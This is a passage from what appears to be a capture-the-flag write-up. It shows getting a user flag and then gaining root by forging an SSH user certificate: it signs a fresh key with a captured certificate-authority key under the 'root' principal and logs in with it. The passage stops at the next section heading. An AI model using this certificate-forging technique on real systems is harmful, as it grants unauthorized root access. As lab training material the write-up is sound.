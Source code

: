 * Get user flag:&#x20;

<figure><img src="../../../.gitbook/assets/user-flag.png" alt=""><figcaption></figcaption></figure>

## Root - ITRC

Use the same method in Msainristil shell, but now the principle of the certificate is <mark style="color:orange;">**`root`**</mark>:

<pre class="language-bash"><code class="lang-bash"><strong>ssh-keygen -t rsa -b 2048 -f rootkey \
</strong>ssh-keygen -s ca-itrc -I ca-itrc.pub -n root rootkey.pub \
ssh -o CertificateFile=rootkey-cert.pub -i rootkey root@localhost 
</code></pre>

<figure><img src="../../../.gitbook/assets/root-itrc.png" alt=""><figcaption></figcaption></figure>

## Support - SSG
